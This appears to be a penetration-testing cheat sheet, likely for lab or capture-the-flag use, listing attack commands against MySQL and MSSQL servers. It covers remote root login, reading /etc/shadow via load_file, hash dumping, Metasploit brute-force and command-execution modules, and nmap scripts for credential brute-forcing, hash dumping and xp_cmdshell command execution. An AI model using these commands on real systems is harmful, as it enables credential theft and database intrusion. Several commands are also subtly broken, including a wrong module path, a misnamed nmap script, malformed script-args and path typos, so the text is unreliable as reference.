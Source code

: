# **MYSQL**

Logging into Mysql on remote host

```mysql -h (IP address) -u root```

Using database

```show databases ---then type semicolon```

```use (database name);```

```select count(*) from authors;```

```select * from authors```

Finding Writable directories

Metasploit -- scanner/mysql/mysql_writable_dirs

Finding hashes

```use auxiliary/scanner/mysql/mysql_hashdump```

Getting the full etc/shadow file

```select load_file("/etc/shadow");```

### Metasploit

Dictionary attack against Mysql

Login Module -- auxiliary/scanner/mysql/mysql_login

User File -- /usr/share/metasploit-framework/data/wordlists/common_users.txt

Password File -- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

Login Modules -- auxiliary/scanner/mysql/mysql_enum

SQL logins Module -- auxiliary/scanner/mysql/mysql_enum_sql_logins

Execute commands -- Login Module -- auxiliary/scanner/mysql_exec

Enumerate domain accounts -- Login Module -- auxiliary/scanner/mysql/mysql_enum_domain_accounts

# **MSSQL**

Nmap scripts

```nmap (ip address) -p (port number) --script ms-sql-info```

```nmap (ip address) -p (port number) --script ms-sql-ntlm-info --script-args mssql.instance-port=1433```

```nmap (ip address) -p (port number) --script ms-sql-brute --script-args userdb=/root/Dessktop/wordlist/common_users.txt,passdb=/root/Dekstop/wordlist/100-common-passwords.txt```

```nmap (ip address) -p (port number) --script ms-empty-password```

```nmap (ip address) -p (port number) --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" -oN output.txt```

```nmap (ip address) -p (port number) --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria```

```nmap (ip address) -p (port number) --script ms-sql-xp-cmdshell.cmd="type c:\flag.txt ```
